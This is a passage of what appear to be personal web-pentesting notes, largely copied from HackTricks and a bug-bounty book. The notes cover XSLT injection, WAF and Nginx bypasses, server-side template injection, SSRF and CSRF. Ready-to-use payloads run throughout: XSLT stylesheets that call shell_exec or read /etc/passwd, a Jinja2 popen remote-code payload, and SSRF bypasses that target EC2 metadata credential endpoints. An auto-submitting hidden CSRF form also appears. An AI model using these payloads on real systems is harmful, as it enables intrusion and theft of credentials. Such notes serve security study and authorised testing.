<?xml version="1.0" encoding="utf-8"?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:php="http://php.net/xsl" >
<xsl:template match="/">
<xsl:value-of select="php:function('opendir','/path/to/dir')"/>
<xsl:value-of select="php:function('readdir')"/> -
<xsl:value-of select="php:function('readdir')"/> -
<xsl:value-of select="php:function('readdir')"/> -
<xsl:value-of select="php:function('readdir')"/> -
<xsl:value-of select="php:function('readdir')"/> -
<xsl:value-of select="php:function('readdir')"/> -
<xsl:value-of select="php:function('readdir')"/> -
<xsl:value-of select="php:function('readdir')"/> -
<xsl:value-of select="php:function('readdir')"/> -
</xsl:template></xsl:stylesheet>
```

### 

[](https://book.hacktricks.xyz/pentesting-web/xslt-server-side-injection-extensible-stylesheet-language-transformations#assert-var_dump--scandir--false)

**Assert (var_dump + scandir + false)**

Copy

```
<?xml version="1.0" encoding="UTF-8"?>
<html xsl:version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:php="http://php.net/xsl">
    <body style="font-family:Arial;font-size:12pt;background-color:#EEEEEE">
        <xsl:copy-of name="asd" select="php:function('assert','var_dump(scandir(chr(46).chr(47)))==3')" />
        <br />
    </body>
</html>
```

## 

[](https://book.hacktricks.xyz/pentesting-web/xslt-server-side-injection-extensible-stylesheet-language-transformations#read-files)

Read files

### 

[](https://book.hacktricks.xyz/pentesting-web/xslt-server-side-injection-extensible-stylesheet-language-transformations#internal-php)

**Internal - PHP**

Copy

```
<xsl:stylesheet xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:abc="http://php.net/xsl" version="1.0">
<xsl:template match="/">
<xsl:value-of select="unparsed-text('/etc/passwd', ‘utf-8')"/>
</xsl:template>
</xsl:stylesheet>
```

### 

[](https://book.hacktricks.xyz/pentesting-web/xslt-server-side-injection-extensible-stylesheet-language-transformations#internal-xxe)

**Internal - XXE**

Copy

```
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE dtd_sample[<!ENTITY ext_file SYSTEM "/etc/passwd">]>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
<xsl:template match="/">
&ext_file;
</xsl:template>
</xsl:stylesheet>
```

### 

[](https://book.hacktricks.xyz/pentesting-web/xslt-server-side-injection-extensible-stylesheet-language-transformations#through-http)

**Through HTTP**

Copy

```
<?xml version="1.0" encoding="utf-8"?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
<xsl:template match="/">
<xsl:value-of select="document('/etc/passwd')"/>
</xsl:template>
</xsl:stylesheet>
```

Copy

```
<!DOCTYPE xsl:stylesheet [
<!ENTITY passwd SYSTEM "file:///etc/passwd" >]>
<xsl:template match="/">
&passwd;
</xsl:template>
```

### 

[](https://book.hacktricks.xyz/pentesting-web/xslt-server-side-injection-extensible-stylesheet-language-transformations#internal-php-function)

**Internal (PHP-function)**

Copy

```
<?xml version="1.0" encoding="utf-8"?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:php="http://php.net/xsl" >
<xsl:template match="/">
<xsl:value-of select="php:function('file_get_contents','/path/to/file')"/>
</xsl:template>
</xsl:stylesheet>
```

Copy

```
<?xml version="1.0" encoding="UTF-8"?>
<html xsl:version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:php="http://php.net/xsl">
    <body style="font-family:Arial;font-size:12pt;background-color:#EEEEEE">
        <xsl:copy-of name="asd" select="php:function('assert','var_dump(file_get_contents(scandir(chr(46).chr(47))[2].chr(47).chr(46).chr(112).chr(97).chr(115).chr(115).chr(119).chr(100)))==3')" />
        <br />
    </body>
</html>
```

### 

[](https://book.hacktricks.xyz/pentesting-web/xslt-server-side-injection-extensible-stylesheet-language-transformations#port-scan)

Port scan

Copy

```
<?xml version="1.0" encoding="utf-8"?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:php="http://php.net/xsl" >
<xsl:template match="/">
<xsl:value-of select="document('http://example.com:22')"/>
</xsl:template>
</xsl:stylesheet>
```

## 

[](https://book.hacktricks.xyz/pentesting-web/xslt-server-side-injection-extensible-stylesheet-language-transformations#write-to-a-file)

Write to a file

### XSLT 2.0

Copy

```
<?xml version="1.0" encoding="utf-8"?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:php="http://php.net/xsl" >
<xsl:template match="/">
<xsl:result-document href="local_file.txt">
<xsl:text>Write Local File</xsl:text>
</xsl:result-document>
</xsl:template>
</xsl:stylesheet>
```

### **Xalan-J extension**

Copy

```
<xsl:template match="/">
<redirect:open file="local_file.txt"/>
<redirect:write file="local_file.txt"/> Write Local File</redirect:write>
<redirect:close file="loxal_file.txt"/>
</xsl:template>
```

Other ways to write files in the PDF

## Include external XSL

Copy

```
<xsl:include href="http://extenal.web/external.xsl"/>
```

Copy

```
<?xml version="1.0" ?>
<?xml-stylesheet type="text/xsl" href="http://external.web/ext.xsl"?>
```

## Execute code

### **php:function**

Copy

```
<?xml version="1.0" encoding="utf-8"?>
<xsl:stylesheet version="1.0"
xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
xmlns:php="http://php.net/xsl" >
<xsl:template match="/">
<xsl:value-of select="php:function('shell_exec','sleep 10')" />
</xsl:template>
</xsl:stylesheet>
```

Copy

```
<?xml version="1.0" encoding="UTF-8"?>
<html xsl:version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:php="http://php.net/xsl">
<body style="font-family:Arial;font-size:12pt;background-color:#EEEEEE">
<xsl:copy-of name="asd" select="php:function('assert','var_dump(scandir(chr(46).chr(47)));')" />
<br />
</body>
</html>
```

Execute code using other frameworks in the PDF
## **Access PHP static functions from classes**

The following function will call the static method `stringToUrl` of the class XSL:

Copy

```
<!--- More complex test to call php class function-->
<xsl:stylesheet xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:php="http://php.net/xsl"
version="1.0">
<xsl:output method="html" version="XHTML 1.0" encoding="UTF-8" indent="yes" />
<xsl:template match="root">
<html>
<!-- We use the php suffix to call the static class function stringToUrl() -->
<xsl:value-of select="php:function('XSL::stringToUrl','une_superstring-àÔ|modifier')" />
<!-- Output: 'une_superstring ao modifier' -->
</html>
</xsl:template>
</xsl:stylesheet>
```


# <font color="red">Proxy or WAF Protection Bypass</font>
## Bypass Nginx ACL Rules with Pathname Manipulation

Techniques [from this research](https://rafa.hashnode.dev/exploiting-http-parsers-inconsistencies).

Nginx rule example:


```
location = /admin {
    deny all;
}

location = /admin/ {
    deny all;
}
```

In order to prevent bypasses Nginx performs path normalization before checking it. However, if the backend server performs a different normalization (removing characters that nginx doesn't remove) it might be possible to bypass this defense.

### **NodeJS - Express**

|   |   |
|---|---|
|Nginx Version|**Node.js Bypass Characters**|
|1.22.0|`\xA0`|
|1.21.6|`\xA0`|
|1.20.2|`\xA0`, `\x09`, `\x0C`|
|1.18.0|`\xA0`, `\x09`, `\x0C`|
|1.16.1|`\xA0`, `\x09`, `\x0C`|


**Flask**

|   |   |
|---|---|
|Nginx Version|**Flask Bypass Characters**|
|1.22.0|`\x85`, `\xA0`|
|1.21.6|`\x85`, `\xA0`|
|1.20.2|`\x85`, `\xA0`, `\x1F`, `\x1E`, `\x1D`, `\x1C`, `\x0C`, `\x0B`|
|1.18.0|`\x85`, `\xA0`, `\x1F`, `\x1E`, `\x1D`, `\x1C`, `\x0C`, `\x0B`|
|1.16.1|`\x85`, `\xA0`, `\x1F`, `\x1E`, `\x1D`, `\x1C`, `\x0C`, `\x0B`|

### **Spring Boot**

|   |   |
|---|---|
|Nginx Version|**Spring Boot Bypass Characters**|
|1.22.0|`;`|
|1.21.6|`;`|
|1.20.2|`\x09`, `;`|
|1.18.0|`\x09`, `;`|
|1.16.1|`\x09`, `;`|

### **PHP-FPM**

Nginx FPM configuration:

```
location = /admin.php {
    deny all;
}

location ~ \.php$ {
    include snippets/fastcgi-php.conf;
    fastcgi_pass unix:/run/php/php8.1-fpm.sock;
}
```

Nginx is configured to block access to `/admin.php` but it's possible to bypass this by accessing `/admin.php/index.php`.

How to prevent

Copy

```
location ~* ^/admin {
    deny all;
}
```

## Bypass Modified Security Rules

### Path Confusion
[**In this post**](https://blog.sicuranext.com/modsecurity-path-confusion-bugs-bypass/) is explained that ModSecurity v3 (until 3.0.12), **improperly implemented the** `**REQUEST_FILENAME**` variable which was supposed to contain the accessed path (until the start of the parameters). This is because it performed an URL decode to get the path. Therefore, a request like `http://example.com/foo%3f';alert(1);foo=` in mod security will suppose that the path is just `/foo` because `%3f` is transformed into `?` ending the URL path, but actually the path that a server will receive will be `/foo%3f';alert(1);foo=`.

The variables `REQUEST_BASENAME` and `PATH_INFO` were also affected by this bug.

Something similar ocurred in version 2 of Mod Security that allowed to bypass a protection that prevented user accessing files with specific extensions related to backup files (such as `.bak`) simply by sending the dot URL encoded in `%2e`, for example: `https://example.com/backup%2ebak`.

## Bypassing AWS WAF
### Malformed Header

[This research](https://rafa.hashnode.dev/exploiting-http-parsers-inconsistencies) mentions that it was possible to bypass AWS WAF rules applied over HTTP headers by sending a "malformed" header that wasn't properly parsed by AWS but it was by the backend server.

For example, sending the following request with a SQL injection in the header X-Query:


```
GET / HTTP/1.1\r\n
Host: target.com\r\n
X-Query: Value\r\n
\t' or '1'='1' -- \r\n
Connection: close\r\n
\r\n
```

It was possible to bypass AWS WAF because it wouldn't understand that the next line is part of the value of the header while the NODEJS server did (this was fixed).

## Generic WAF Bypassed 

### Request Size Limits

Commonly WAFs have a certain length limit of requests to check and if a POST/PUT/PATCH request is over it, the WAF won't check the request.

-  For AWS WAF, you can [**check the documentation**](https://docs.aws.amazon.com/waf/latest/developerguide/limits.html)**:**
    


- From **Azure docs**:
Older Web Application Firewalls with Core Rule Set 3.1 (or lower) allow messages larger than **128 KB** by turning off request body inspection, but these messages won't be checked for vulnerabilities. For newer versions (Core Rule Set 3.2 or newer), the same can be done by disabling the maximum request body limit. When a request exceeds the size limit:

If p**revention mode**: Logs and blocks the request. If **detection mode**: Inspects up to the limit, ignores the rest, and logs if the `Content-Length` exceeds the limit.

-   From [**Cloudflare**](https://developers.cloudflare.com/ruleset-engine/rules-language/fields/#http-request-body-fields)**:**


Up to 128KB.


### Obfuscation


```
# IIS, ASP Clasic
<%s%cr%u0131pt> == <script>

# Path blacklist bypass - Tomcat
/path1/path2/ == ;/path1;foo/path2;bar/;
```

### Unicode Compatability
Depending on the implementation of unicode normalization (more info [here](https://jlajara.gitlab.io/Bypass_WAF_Unicode)), characters that share Unicode compatability may be able to bypass the WAF and execute as the intended payload. Compatible characters can be found [here](https://www.compart.com/en/unicode).

#### Example

```
# under the NFKD normalization algorithm, the characters on the left translate
# to the XSS payload on the right
＜img src⁼p onerror⁼＇prompt⁽1⁾＇﹥  --> ＜img src=p onerror='prompt(1)'>
```

## IP Rotation
- https://github.com/ustayready/fireprox](https://github.com/ustayready/fireprox): Generate an API gateway URL to by used with ffuf
    
- [https://github.com/rootcathacking/catspin](https://github.com/rootcathacking/catspin): Similar to fireprox
    
- [https://github.com/PortSwigger/ip-rotate](https://github.com/PortSwigger/ip-rotate): Burp Suite plugin that uses API gateway IPs
    
- [https://github.com/fyoorer/ShadowClone](https://github.com/fyoorer/ShadowClone): A dynamically determined number of container instances are activated based on the input file size and split factor, with the input split into chunks for parallel execution, such as 100 instances processing 100 chunks from a 10,000-line input file with a split factor of 100 lines.


# <font color="red">FILE INCLUSION / PATH TRAVERSAL</font>


# <font color="red">0Auth</font>


# <font color="red" >SSTI</font>
## Mechanism:
emplate engines separate business logic
from the presentation layer, meaning HTML/CSS is kept separate from
server-side programming code. This separation makes the code more read-
able, enhances maintainability, and leads to greater code reusability. Here is
an example of an HTML template:

```
<html>
<head>
<title> {{page_title}} </title>
</head>
<body>
<h1> {{heading}} </h1>
<p> {{content}} </p>
</body>
</html>
```
In this template, {{page_title}}, {{heading}}, and {{content}} are placeholders
for dynamic content.

**Root cause of Template injection**:

Template engines have features that allow the ability to access internal
objects and functions.
Server-side template injection (SSTI) occurs when user-supplied input is
directly inserted into the template and is interpreted by the template engine
as code instead of string; his behavior could lead to remote code execu-
tion (RCE. To exploit this vulnerability, specially crafted strings are injected,
which will be interpreted as commands or directives by the template engine.

While, there are many template engines, however, some of the famous
template injections you might frequently encounter in wild are as follows:
• Smarty (PHP)
• Blade (PHP, used with Laravel)
• Pug (formerly Jade, JavaScript)
• Liquid (Ruby, used by Shopify)
• Freemarker (Java)
• Twig (PHP, used with Symfony)
• Mustache (cross-platform)
• Jinja2 (Python)
• Mako(Python)

### Identifying Template injection

To identify SSTI, use a Polyglot payload composed of special charac-
ters commonly used in template expressions to fuzz the template such as
“${{<%\[%’ ”}}%\”. In case of a vulnerability, an error message can be
returned or the exception can be raised by the server. This is one of the signs
that SSTI might exist.

**Context in Template injections**
SSTI can occur in two distinct contexts, each requiring its own detection
method. Even if initial fuzzing or an automated tool suggests the presence of
SSTI, identifying its context is still necessary in order to exploit it effectively.

- PlainText context:
In plaintext context, user input is treated as simple text; in other words, it
is not treated as a code or executable instruction. This means that any input
you provide will be reflected by the application.

Example:
```
https://vulnerablebank.com/?username=Hello {{name}}
```
it might be rendered as “Hello rafay”, where “rafay” is treated as plain text.
An SSTI in this context is less severe, but it still poses indirect risks such as
XSS, if the input is reflected in a web page without proper escaping.
This context is often confused with client-side template injection (CSTI)vulnerability.

- Code context:

In code context, the user-supplied input is directly inserted within the code
blocks or statements, and the template injection subsequently interprets it
and executes it as code. The consequences in this case could be as severe as
RCE.

**Identify the Template Engine**

Once template injection has been identified, the next step in exploitation is to
identify the underlying template engine in use. This step involves submitting
invalid syntax, which may cause the template engines to malfunction and
reveal themselves through error messages. However, this technique might
not be effective when error messages have been disabled on the server end.

In such a situation we can use other technique such as examining the appli-
cation’s environment, such as known tech stack, or looking for other signs
in the way it processes template syntax, which can differ from one engine
to another. A common way of doing this is to inject arbitrary mathemati-
cal operations using syntax from different template engines and observe
whether they are successfully evaluated. 


### Exploiting Template Injection:

**Identification of Template Language (Jinja2)**
The next step would be to identify the underlying templating engine. From
the previous decision tree, we know that the payload “{{7 * ’7’}}” would
result in “49” in Twig (PHP) and “7777777” in Jinja2 (Python).

**Exploiting for RCE**

he template engine is Jinja2. Now, using the
payload provided in the following, we will attempt RCE. To accomplish
this, we will utilize the Popen function within the “os” module to executeshell commands. The read() function is then called to read the output of the “whoami” command.
payload:
```
{{namespace.__init__.__globals__.os.popen('whoami').
read()}}
```


# <font color="red">CSTI</font>


# <font color="red">SSRF</font>

## <font color="red">Mechanism</font>:
#### SSRF vulns occur when an attacker finds a way to send requests as a trusted server in the target's network. 

#### For example when a user access to the following url the web application would display the google page :
	https://public.example.com/proxy?url=https://google.com

#### Now let's say admin.example.com is an internal server on the network hosting an admin panel. To ensure that only employees can access the panel, administrators set up access controls to keep it from being reached via the internet. Only machines with a valid internal IP , like an employee workstation , can access the lab Now what if a regular user access the following URL?
	https://public.example.com/proxy?url=https://admin.example.com
#### with no ssrf protection mechanism in place the web application would display admin pannel.

#### Through SSRF, servers accept unauthorized requests that firewall controls would normally block, like fetching the admin panel from a non-company machine. Often, the protection that exists on the network perimeter, between public-facing web servers and internet machines, does not exist between machines on the trusted network. Therefore, the protection that hides the admin panel from the internet doesn’t apply to requests sent between the web server and the admin panel server.

#### SSRF vulnerabilities have two types : regular ssrf and blind ssrf. the mechanism behind both is the same each exploits the trust between machines on the same network. The only difference is that in a blind SSRF, the attacker does not receive feedback from the server via an HTTP response or an error message. 

#### Let’s say that on public.example.com another functionality allows users to send requests via its web server. But this endpoint does not return the resulting page to the user. If attackers can send requests to the internal network, the endpoint suffers from a blind SSRF vulnerability:
	https://public.example.com/send_request?url=https://admin.example.com/delete_user?user=1

#### Although blind SSRFs are harder to exploit, they’re still extremely valuable to an attacker, who might be able to perform network scanning and exploit other vulnerabilities on the network


## <font color="red">Prevetion</font>
#### Two main types of protection against SSRFs exist: blocklists and allowlists.
#### Blocklists are lists of banned addresses. The server will block a request if it contains a blocklisted address as input. Because applications often need to fetch resources from a variety of internet sources, too many to explicitly allow, most applications use this method. Companies blocklist internal network addresses and reject any request that redirects to those addresses.

#### On the other hand, when a site implements allowlist protection, the server allows only requests that contain URLs found in a predetermined list and rejects all other requests. Some servers also protect against SSRFs by requiring special headers or secret tokens in internal requests.


## <font color="red">Haunt</font>
#### The best way to discover SSRF vulnerabilities is through a review of the application’s source code, in which you check if the application validates all user-provided URLs. But when you can’t obtain the source code, you should focus your efforts on testing the features most prone to SSRF.

### <font color="red">step1 -</font> spot features prone to ssrf:
#### SSRFs occur in features that require visiting and fetching external resources. These include webhooks, file uploads, document and image processors, link expansions or thumbnails, and proxy services. It’s also worth testing any endpoint that processes a user-provided URL.
#### And pay attention to potential SSRF entry points that are less obvious, like URLs embedded in files that are processed by the application (XML files and PDF files can often be used to trigger SSRFs), hidden API endpoints that accept URLs as input, and input that gets inserted into HTML tags.
#### Potential SSRF Endpoints:
	
	Add a new webhook:
	POST /webhook
	Host: public.example.com
	(POST request body)
	url=https://www.attacker.com
	File upload via URL:
	POST /upload_profile_from_url
	Host: public.example.com
	(POST request body)
	user_id=1234&url=https://www.attacker.com/profile.jpeg
	Proxy service:
	https://public.example.com/proxy?url=https://google.com
### <font color="red">Step 2- </font>Provide Potentially Vulnerable Endpoints with Internal URLs

Once you’ve identified the potentially vulnerable endpoints, provide internal
addresses as the URL inputs to these endpoints. Depending on the network
configuration, you might need to try several addresses before you find the
ones in use by the network. Here are some common ones reserved for the pri-
vate network: localhost, 127.0.0.1, 0.0.0.0, 192.168.0.1, and 10.0.0.1.

### <font color="red">Step 3- </font> Check the results:

#### The easiest way of detecting blind SSRFs is through out-of-band techniques.

#### you can make your system as a listener using netcat :
#### using the command `nc -lp 8080` start a listener 
#### <font color="red"> Note </font>that being able to generate an outband request from the target is not an exploitable issue by itself. 
#### Since you can not use blind ssrf to read internal files or access internal Services you need to confirm their exploitability by trying to explore their internal network 

#### <font  color="red" >port scanning </font> : you can do portscanning via ssrf consider a post request suffering by ssrf like this:
	POST /webhook
	Host: public.example.com
	(POST request )
	url=https://127.0.0.1:80
#### you can check if a 200 response equals to an open port(80) for it or 500 which means the following port does not exist.
	POST /webhook
	Host: public.example.com
	(POST request )
	url=https://127.0.0.1:11
	...
#### if a port is closed the server usually responds faster because it drops the forwarded traffic immediately 
#### where as internal firewalls often cause a delay  in the reoponse attackers can use time delays as a metric to figure out a target is internal network structure if you can identify a significant time difference between requests to different ports , you have found an exploitable SSRF.

### <font color="red">Bypassing SSRF Protection</font>:
#### what if a site use a protection mechanisms implemented but this doesn't mean that the protection is compelete.
### <font color="red">Bypass Allowlist </font>:
#### Allow lists are generally the hardest to bypass . because by default they are stricter than blocklists. But getting arround them is still possible if you can find an openredirect  vulnerability within the allowlisted domains. if you find one you can request an allowlisted URL that redirects to an internal URL.

### <font color="red">Bypassing Blocklists </font>:
#### consider applications often need to fetch resourses from a variety of internet source, most SSRF protection mechanisms come in the form of a blocklist .
#### <font color="red">fooling it by redirect </font>
#### first you can make the server to make a request to your host then place a file in it with the code :
	<?php header("location: http://127.0.0.1"); ?>

#### <font color="red">using IPv6 Addresses</font >:

#### the IPv6 address ::1 points to the localhost, and fc00:: is the first address on the private network.


#### <font color="red">Tricking the Server with DNS </font>
Modify the A/AAAA record of a domain you control and make it point
to the internal addresses on the victim’s network. 

Server-Side Request Forgery 223
You can usually configure the DNS records of your domain name by
using your domain registrar or web-hosting service’s settings page. For
instance, I use Namecheap as my domain service. In Namecheap, you
can configure your DNS records by going to your account and choosing
Domain List>Manage Domain>Advanced DNS>Add New Record. Create a
custom mapping of hostname to IP address and make your domain resolve
to 127.0.0.1. You can do this by creating a new A record for your domain
that points to 127.0.0.1. Then you can ask the target server to send a request to your server, like:
	https://public.example.com/proxy?url=https://attacker.com


#### <font color="red"> Switching Out Esncoding </font>:
#### Possibel encoding methods include hex encoding , dword encoding , URL encoding , and mixed encoding . If the URL parser of the target server does not process these encoding methods appropriately, you might be able to bypass SSRF protection. 

#### For example 127.0.0.1 in decimal translates to  0x7f.0x0.0x0.0x1 in hex 

#### Octal encoding is a way of representing characters in a base 8 format by using character transforming from 0 to 7 .

#### For example 127.0.0.1 translates to 0177.0.0.01 . In this case the leading zeros are necessary to convey that , that section is an octal number .

	https://public.example.com/proxy?url=https://0x7f.0x0.0x0.0x1   hex encode
	https://public.example.com/proxy?url=https://0177.0.0.01         octal encode 
#### The dword or double word , encoding scheme represents an IP address as single 32 bit integer 127.0.0.1 is the decimal representation of 01111111.00000000.00000000.00000001. 

#### when a web server blocks requests to internal hostnames like https://localhost try URL_encoding the :
	https://public.example.com/proxy?url=https://%6c%6f%63%61%6c%68%6f%73%74

#### Finally you could <font color="red">use a combination </font>of encoding techniques to try to fool the block list 

#### When you can’t find a bypass that works, switch your perspective by asking yourself, how would I implement a protection mechanism for this feature? Design what you think the protection logic would look like. Then try to bypass the mechanism you’ve designed. Is it possible? Did you miss anything when implementing the protection? Could the developer of the application have missed something too?

### <font color="red">Escalating the Attack</font >
#### SSRF s have many impacts if you know how to escalate them by  chaining 

#### <font color="red">Perform Port Scanning</font>:
#### you may sometimes want to scan the network for other reachable machines . 
#### Reachable machines are other network hosts that can be connected to via the current machine. 

#### these internals machines might host databases , internal websites , and otherwise sensitive functionalities that an attacker can exploit to their advantage . 

#### To perform the scan , feed the vulnerable endpoint a range of internal IP addresses and see if the server responds differently to each address . For example , when you request the address 10.0.0.1

	POST /upload_profile_from_url
	Host: public.example.com
	(POST request body)
	user_id=1234&url=https://10.0.0.1
#### the server may respond with :
	Error: cannot upload image: http-server-header: Apache/2.2.8 (Ubuntu) DAV/2
#### But when you request the address 10.0.0.2:
	
	POST /upload_profile_from_url
	Host: public.example.com
	(POST request body)
	user_id=1234&url=https://10.0.0.2
#### the server may respond with this message 
	Error: cannot upload image: Connection Failed

#### Here you can deduce that 10.0.0.1 is the address of a valid host on the network while 10.0.0.2 is not . 
#### You can also use SSRF to port-scan network machines and reveal services running on those machines. Open ports provide a good indicator of the services running on the machine, because services often run on certain ports by default . 

#### Provide the vulnerable endpoint with different port numbers , and then determine if the server behaviour differs between ports .


#### <font color="red">Pull Instance Metadata </font>:
#### Cloud computing services allow businesses to run their applications on other people’s servers. One such service, Amazon Elastic Compute Cloud (EC2), offers an instance metadata tool that enables EC2 instances to access  data about themselves by querying the API endpoint at 169.254.169.254.
#### Instances are virtual servers used for running applications on a cloud provider’s infrastructure. Google Cloud offers a similar instance metadata API service.
#### These API endpoints are accessible by default unless network admins specifically block or disable them. The information these services reveal is often extremely sensitive and could allow attackers to escalate SSRFs to serious information leaks and even RCE.

#### <font color="red">Querying EC2 Metadata </font>:
#### If a company hosts its infrastructure on Amazon EC2, try querying various instance metadata about the host using this endpoint. For example, this API request fetches all instance metadata from the running instance:

	http://169.254.169.254/latest/meta-data/
###### <font color="red">Use this URL in an endpoint vulnerable to SSRF</font >
### <font color="red">important</font>
These endpoints reveal information such as API keys, Amazon S3
tokens (tokens used to access Amazon S3 buckets), and passwords. Try
requesting these especially useful API endpoints:
• http://169.254.169.254/latest/meta-data/ returns the list of available meta-
data that you can query.
• http://169.254.169.254/latest/meta-data/local-hostname/ returns the internal
hostname used by the host.
• http://169.254.169.254/latest/meta-data/iam/security-credentials/ROLE
_NAME returns the security credentials of that role.
• http://169.254.169.254/latest/dynamic/instance-identity/document/ reveals
the private IP address of the current instance.
• http://169.254.169.254/latest/user-data/ returns user data on the current
instance.


#### <font color="red">Querying google cloud Metadata</font> :

#### if the company uses Google cloud query the Google Instance Metadata instead. 
If the company uses Google Cloud, query the Google Instance Metadata
API instead. Google implements additional security measures for its API
endpoints, so querying Google Cloud Metadata APIv1 requires one of these
special headers:
	
	Metadata-Flavor: Google
	X-Google-Metadata-Request: True
	


### <font color="red">Exploit blind ssrf </font>:
#### Because blind SSRFs don’t return a response or error message, their exploitation is often limited to network mapping, port scanning, and service discovery.

#### <font color="red">Network and port scanning Using HTTP status codes </font>:


#### <font color="red">Network and Port Scanning Using Server Response Times</font>:


# <font color="red">CSRF</font>
## <font color="red">Mechanism</font>:
#### the web server establishes a new session: it sends your browser a session cookie associated with the session, and this cookie proves your identity to the server.
#### Your browser receives the session cookie, stores it, and sends it along via the Cookie HTTP request header in every one of your requests.

#### Armed with your session cookie, you can carry out authenticated actions like accessing confidential information, changing your password, or sending a private message without reentering your password.

#### So if the website is vulnerable to csrf a third website can create a page on their host webpage  a code like :
	<html>
	1 <h1>Send a tweet.</h1>
	2 <form method="POST" action="https://twitter.com/send_a_tweet">
	3 <input type="text" name="tweet_content" value="Hello world!">
	4 <input type="submit" value="Submit">
	</form>
	</html>
#### and the host can send a request to vulnerable site like :
	POST /send_a_tweet
	Host: twitter.com
	Cookie: session_cookie=YOUR_TWITTER_SESSION_COOKIE
	(POST request body)
	tweet_content="Hello world!"
#### This functionality has a vulnerability: any site, and not just Twitter, can initiate this request.
#### When you click the Submit button on this page, your browser will send a POST request. Because the browser automatically includes your Twitter session cookies in requests to Twitter, Twitter will treat the request as valid,causing your account to tweet Follow @vickieli7 on Twitter! Here’s the corresponding request:
	POST /send_a_tweet
	Host: twitter.com
	Cookie: session_cookie=YOUR_TWITTER_SESSION_COOKIE
	158 Chapter 9
	(POST request body)
	tweet_content="Follow @vickieli7 on Twitter!"
#### Even though this request doesn’t come from Twitter, Twitter will recognize it as valid because it includes your real Twitter session cookie.
	<html>
	<iframe style="display:none" name="csrf-frame"> 1
	<form method="POST" action="https://twitter.com/send_a_tweet"
	target="csrf-frame" id="csrf-form"> 2
	<input type="text" name="tweet_content" value="Follow @vickieli7 on Twitter!">
	<input type='submit' value="Submit">
	</form>
	</iframe>
	<script>document.getElementById("csrf-form").submit();</script> 3
	</html>
#### This HTML places the form in an invisible iframe to hide it from the user’s view. Remember from Chapter 8 that an iframe is an HTML element that embeds another document within the current HTML document. This particular iframe’s style is set to display:none, meaning it won’t be displayed on the page, making the form invisible 1. Then, JavaScript code between the script tags 3 will submit the form with the ID csrf-form 2 without the need for user interaction. The code fetches the HTML form by referring to it by its ID, csrf form. Then the code submits the form by calling the submit()method on it. With this new attack page, any victim who visits the malicious site will be forced to tweet.

## <font color="red">Prevention</font>:

#### The best way to prevent CSRFs is to use CSRF tokens. 
#### Besides implementing CSRF tokens to ensure the authenticity of requests, another way of protecting against CSRF is with SameSite cookies. The Set-Cookie header allows you to use several optional flags to protect your users’ cookies, one of which is the SameSite flag. When the SameSite flag on a cookie is set to Strict, the client’s browser won’t send the cookie during cross-site requests:
	Set-Cookie: PHPSESSID=UEhQU0VTU0lE; Max-Age=86400; Secure; HttpOnly; SameSite=Strict
#### Another possible setting for the SameSite flag is Lax, which tells the client’s browser to send a cookie only in requests that cause top-level navigation (when users actively click a link and navigate to the site). This setting ensures that users still have access to the resources on your site if the cross site request is intentional. For example, if you navigate to Facebook from a third-party site, your Facebook logins will be sent. But if a third-party site initiates a POST request to Facebook or tries to embed the contents of Facebook within an iframe, cookies won’t be sent:
	Set-Cookie: PHPSESSID=UEhQU0VTU0lE; Max-Age=86400; Secure; HttpOnly; SameSite=Lax
#### In 2020, Chrome and a few other browsers made SameSite=Lax the default cookie setting if it’s not explicitly set by the web application. Therefore, even if a web application doesn’t implement CSRF protection, attackers won’t be able to attack a victim who uses Chrome with POST CSRF. The efficacy of a classic CSRF attack will likely be greatly reduced, since Chrome has the largest web browser market share. On Firefox, the SameSite default setting is a feature that needs to be enabled. You can enable it by going to about:config and setting network.cookie.sameSite.laxByDefault to true.

#### Even when browsers adopt the SameSite-by-default policy, CSRFs are still possible under some conditions. First, if the site allows state-changing requests with the GET HTTP method, third-party sites can attack users by creating CSRF with a GET request. For example, if the site allows you to change a password with a GET request, you could post a link like this to trick users into clicking it: https://email.example.com/password_change?new_password=abc123.

#### Since clicking this link will cause top-level navigation, the user’s session cookies will be included in the GET request, and the CSRF attack will succeed:
	GET /password_change?new_password=abc123
	Host: email.example.com
	Cookie: session_cookie=YOUR_SESSION_COOKIE
#### n another scenario, sites manually set the SameSite attribute of a cookie to None. Some web applications have features that require third-party sites to send cross-site authenticated requests. In that case, you might explicitly set SameSite on a session cookie to None, allowing the sending of the cookie across origins, so traditional CSRF attacks would still work. Finally, if the victim is using a browser that doesn’t set the SameSite attribute to Lax by default (including Firefox, Internet Explorer, and Safari), traditional CSRF attacks will still work if the target application doesn’t implement diligent CSRF protection.
## <font color="red">Haunt</font>:
#### start by discovering state-changing requests that aren’t shielded by CSRF protections. because browsers likeChrome offer automatic CSRF protection, you need to test with anotherbrowser, such as Firefox.

### <font color="red">Step 1</font>: Spot State-Changing Actions
#### Actions that alter the users’ data are called state-changing actions.Record these endpoints one by one so you can revisit and test them later. 


### <font color="red"> Step 2</font>: Look for a Lack of CSRF Protections

#### Now visit these endpoints to test them for CSRFs. First, open up Burp Suite and start intercepting all the requests to your target site in the Proxy tab.

#### In the intercepted request, look for signs of CSRF protection mecha-nisms. Use the search bar at the bottom of the window to look for the string "csrf" or "state". CSRF tokens can come in many forms besides POST body parameters; they sometimes show up in request headers, cookies, and URL parameters as well.

#### But even if you find a CSRF protection present on the endpoint, you could try a variety of protection-bypass techniques.


### <font color="red">Step 3</font>: Confirm the Vulnerability
#### After you’ve found a potentially vulnerable endpoint, you’ll need to confirm the vulnerability. You can do this by crafting a malicious HTML form that  imitates the request sent by the legitimate site.
#### Craft an HTML page like this in your text editor. Make sure to save it with an .html extension! This way, your computer will open the file with a browser by default:
	<html>
